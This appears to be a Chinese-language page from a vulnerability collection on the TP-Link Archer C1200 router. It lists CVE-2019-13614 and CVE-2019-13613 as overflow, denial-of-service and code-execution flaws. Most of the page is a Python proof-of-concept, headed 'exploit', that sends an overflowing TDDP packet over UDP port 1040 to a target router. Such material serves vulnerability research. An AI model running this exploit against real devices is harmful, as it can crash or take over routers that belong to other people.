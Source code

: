 
# 	Archer C1200

https://www.cvedetails.com/product/48226/Tp-link-Archer-C1200-Firmware.html?vendor_id=11936

## CVE-2019-13614
- 1.0.0
- 溢出
- 拒绝服务
- 代码执行

参考

https://fakhrizulkifli.github.io/articles/2019-07/CVE-2019-13614

利用
```
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

import sys
import binascii
import socket

rhost = "target_ip"
payload = "A" * 48 + "BBBBCCCCDDDD"

port_send = 1040

tddp_ver = "01"
tddp_command = "a2"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s" % payload
packet = packet + argument.encode()
sock_send.sendto(packet, (rhost, port_send))
sock_send.close()
```
## CVE-2019-13613
- 溢出
- 拒绝服务
- 代码执行
